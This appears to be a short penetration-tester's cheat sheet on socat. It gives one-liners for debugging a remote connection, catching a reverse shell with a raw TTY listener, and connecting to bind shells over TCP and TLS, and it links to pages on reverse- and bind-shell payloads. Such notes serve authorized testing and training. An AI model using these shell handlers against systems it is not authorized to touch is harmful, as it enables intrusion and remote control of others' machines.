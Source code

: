 # Socat

Checking a remote connection with verbosed debug.

```
$ socat -dddd - tcp4:<remote_IP>:<remote_PORT>
```

Note: Using root privileges to bind a listener to ports below 1024.

## 01 - Reverse Shell Handler

### 1.1 - TCP Method

```
$ socat file:`tty`,raw,echo=0 tcp-listen:<PORT>

$ socat -d -d tcp4-listen:443 STDOUT
```

## 02 - Bind Shell Handler

### 2.1 - TCP Method

```
$ socat file:`tty`,raw,echo=0 tcp:<target_IP>:<target_PORT>
```

### 2.2 - UDP Method

TODO: Make another shell handler for UDP

### 2.3 - TLS Method

```
$ socat - OPENSSL:<target_IP>:<target_PORT>,verify=0
```

---
## References

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xB - Callback Shells/One-Liners/Linux/Reverse Shells/Socat|Socat: Reverse Shell]]

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xB - Callback Shells/One-Liners/Linux/Bind Shells/Socat|Socat: Bind Shell]]